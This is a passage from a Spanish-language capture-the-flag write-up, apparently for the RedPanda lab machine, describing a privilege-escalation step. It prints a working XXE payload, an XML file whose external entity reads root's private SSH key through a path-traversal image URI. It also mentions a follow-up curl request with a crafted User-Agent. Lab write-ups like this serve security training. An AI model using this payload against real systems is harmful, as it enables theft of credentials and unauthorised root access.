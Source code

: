 

A continuación crearemos en `/tmp` o `/home/wookdenk/` un archivo xml que apunte a la `id_rsa` de root, con el nombre definido en la imagen más _creds.xml que es lo suma el archivo que encontramos osea `test_creds.xml`.


![list](/assets/img/redpanda/Kali-2022-09-02-02-21-58.png){:.lead width="800" height="100" loading="lazy"}


***

```php
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/images.jpeg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```


{:.note title="Attention"}
En test_creds.xml.


***

Para este momento debemos tener la imagen y el .xml en el servidor lo que sigue es hacer un curl con el formato que vimos en el archivo como User-Agent.


![list](/assets/img/redpanda/Kali-2022-09-02-02-28-02.png){:.lead width="800" height="100" loading="lazy"}


[Hacktricks]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
[Blog]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[PayloadsAllTheThings]: https://github.com/swisskyrepo/PayloadsAllTheThings
[recurso]: https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
[tty]: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys 